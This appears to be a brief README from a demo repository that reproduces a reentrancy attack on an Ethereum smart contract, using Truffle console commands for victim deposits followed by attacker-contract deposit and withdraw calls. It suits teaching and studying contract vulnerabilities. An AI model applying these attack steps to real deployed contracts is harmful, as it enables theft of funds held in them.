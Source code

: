 ## Reentrancy

Reproducing attack using these contracts.

Depositing some amount in 2 differents accounts balances:
```
$victim: Reentrancy.deployed().then(instance=> instance.deposit({value: 10, from : web3.eth.accounts[1]}))
$victim: Reentrancy.deployed().then(instance=> instance.deposit({value: 20, from : web3.eth.accounts[0]}))
```
Attacker calls withdraw from a contract, so it will receive a payment and fallback function will be executed.
```
$attacker: ReentrancyAttacker.deployed().then(instance=> instance.depositInContract({value : 5}))
$attacker: ReentrancyAttacker.deployed().then(instance=> instance.withdrawFromContract())
```


